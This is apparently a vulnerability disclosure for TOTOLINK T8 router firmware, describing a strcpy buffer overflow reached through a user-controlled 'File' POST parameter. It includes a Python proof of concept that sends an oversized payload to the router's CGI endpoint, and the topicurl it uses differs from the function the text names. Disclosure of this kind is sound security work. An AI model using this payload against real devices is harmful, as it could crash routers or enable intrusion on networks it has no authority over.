 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html

## Affected version

T8_Firmware V4.1.5cu.861_B20230220

## Vulnerability details

In the T8_Firmware V4.1.5cu.861_B20230220 firmware a buffer overflow vulnerability in the `UploadCustomModule` function. The `v8` variable receives the `File` parameter from a POST request. However, since the user can control the input of `File`, the `strcpy(v15, v8);` can cause a buffer overflow vulnerability.

![image-20240902135434834](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902135434834.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {'topicurl' : "UploadFirmwareFile",
"File" : "a"*0x500000}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
